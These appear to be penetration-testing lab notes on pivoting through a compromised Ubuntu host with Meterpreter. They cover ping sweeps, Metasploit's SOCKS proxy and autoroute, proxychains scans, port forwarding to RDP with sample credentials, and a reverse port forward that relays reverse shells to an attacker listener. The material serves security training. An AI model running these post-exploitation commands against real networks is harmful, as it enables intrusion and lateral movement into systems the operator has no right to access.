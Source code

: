 - Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to **perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter** sessions bring us.

- Ping Sweep:
	- `run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`
- Ping Sweep For Loop on Linux Pivot Hosts:
	- `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
- Ping Sweep For Loop Using CMD:
	- `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`
- Ping Sweep Using PowerShell:
	- `1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}`

- There could be scenarios when a host's firewall blocks ping (ICMP), and the ping won't get us successful replies.
- Instead of using SSH for port forwarding, **we can also use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy** on our attack host.
- We will configure the SOCKS proxy for `SOCKS version 4a`.
- This SOCKS **configuration will start a listener on port `9050` and route all the traffic received via our Meterpreter** session.
# Configuring MSF's SOCKS Proxy
---
- `use auxiliary/server/socks_proxy`
- `set SRVPORT 9050`
- `set SRVHOST 0.0.0.0`
- `set version 4a`
- `run`

- #### Confirming Proxy Server is Running:
	- `jobs`
	  
- After initiating the SOCKS server, **we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host**. 
- We can add the below line at the end of our `proxychains.conf` file located at `/etc/proxychains.conf` if it isn't already there.

- Finally, **we need to tell our socks_proxy module to route all the traffic via our Meterpreter session**. 
- We can use the **`post/multi/manage/autoroute` module from Metasploit** to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

- Creating Routes with AutoRoute:
	- `use post/multi/manage/autoroute`
	- `set SESSION 1`
	- `set SUBNET 172.16.5.0`
	- `run`
- It is **also possible** to add routes with autoroute **by running autoroute from the Meterpreter session**:
	- `run autoroute -s 172.16.5.0/23`

- Listing Active Routes with AutoRoute:
	- `run autoroute -p`

- Testing Proxy & Routing Functionality:
	- `proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn`

# Port Forwarding
---
- Port forwarding can also be accomplished **using Meterpreter's `portfwd` module**

- Creating Local TCP Relay:
	- `portfwd add -l 3300 -p 3389 -r 172.16.5.19`
- The above command requests the Meterpreter session to start a **listener on our attack host's local port (`-l`) `3300`** and forward all the packets to the **remote (`-r`) Windows server `172.16.5.19` on `3389` port** (`-p`) via our Meterpreter session.

- Connecting to Windows Target through localhost:
	- `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`

# Meterpreter Reverse Port Forwarding
---
- Similar to local port forwards, Metasploit can also perform `reverse port forwarding` with the below command, **where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host.**
- We will start a **listener on a new port on our attack host for Windows** and **request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234`** to **our listener on port `8081`.**

- Reverse Port Forwarding Rules:
	- `portfwd add -R -l 8081 -p 1234 -L 10.10.14.18`
- Configuring & Starting multi/handler:
	- `set payload windows/x64/meterpreter/reverse_tcp`
	- `set LPORT 8081 `
	- `set LHOST 0.0.0.0 `
	- `run`

- We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.